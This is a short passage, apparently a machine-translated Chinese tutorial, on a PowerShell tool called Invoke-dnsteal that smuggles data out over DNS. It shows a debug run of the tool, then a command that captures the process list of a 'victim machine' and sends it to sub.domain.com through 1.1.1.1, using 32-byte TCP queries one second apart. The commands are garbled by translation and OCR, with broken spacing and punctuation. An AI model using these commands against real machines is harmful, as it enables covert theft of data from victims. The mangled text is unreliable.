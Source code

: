 我们可以做的事情之一就是使用帮助中没有包含的*调试*功能来检查上述内容。为了实现这一点，我们将在终端中执行以下命令:

**。\ Invoke-dn steal . PS1-d paylo**ad

![](img//2d2c9b945bba3262720bd4a4cb5df5ac.png)

正如在前面的图像中可以看到的那样，*有效载荷*与发送的数据完全对应，因此通过这种方式，我们可以肯定地知道**通信在整个过程中没有被改变**。

在下面的用例中，我们将使用 PowerShell 变量作为*有效负载*来过滤在受害机器上运行的进程。为了增加一点复杂性，我们将使用 Cloudflare 的 DNS 服务器，请求之间的等待时间为 1 秒，通过 TCP 的每个查询的长度为 32 字节:

**Data = Get-Process | Out-String；。\ Invoke-dnsteal . PS1-t sub.domain.com-p $ data-l 32-s 1.1.1.1-tcponly true-min 10**
